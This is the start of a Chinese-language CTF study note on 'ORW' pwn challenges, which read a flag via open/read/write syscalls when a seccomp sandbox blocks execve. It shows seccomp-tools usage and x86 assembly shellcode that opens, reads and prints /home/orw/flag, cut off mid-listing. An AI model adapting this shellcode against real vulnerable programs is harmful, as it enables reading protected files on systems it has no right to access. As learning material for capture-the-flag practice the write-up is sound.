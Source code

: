 ```yaml
---
layout:     post
title:      PWN-ORW总结
subtitle:   在无法执行命令的沙箱环境下拿到flag
date:       2021-10-28
author:     X1ng
header-img: orw.jpg
catalog: true
tags:
    - 学习笔记
    - pwn
---
```


平时比赛看到orw的题基本丢给队友，学习总结一下相关的知识

[题目附件](https://github.com/X1ngn/ctf/blob/master/orwpwn.zip)

### 介绍

CTF中这类PWN题目通常通过禁用execve系统调用添加沙箱，不能直接执行命令getshell，这时候需要通过调用open、read、write这样的函数打开flag，存到内存中，再输出

将三个函数开头字母作为简称，也就是orw

可以通过[seccomp-tools](https://github.com/david942j/seccomp-tools)来判断是否添加沙箱，以及查看沙箱的规则

```
seccomp-tools dump ./pwn
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gvuywjmlgpj30uu0bijv7.jpg)

像这样就是比较经典的只允许64位的read、write、open三个系统调用，其他的系统调用号都被禁止



### shellocde绕过

#### 原理

最简单的orw，没有开启NX保护的时候，可以让程序执行自己输入的指令直接调用orw三个系统调用

以x86下的shellocde为例，x64只需要修改一下寄存器即可

```python
#fd = open('/home/orw/flag',0)
s = '''
xor edx,edx;
mov ecx,0;
mov ebx,0x804a094;
mov eax,5;
int 0x80;
'''

#read(fd,0x804a094,0x20)
s = '''
mov edx,0x40;
mov ecx,ebx;
mov ebx,eax;
mov eax,3;
int 0x80;
'''

#write(1,0x804a094,0x20)
s = '''
mov edx,0x40;
mov ebx,1;
mov eax,4
```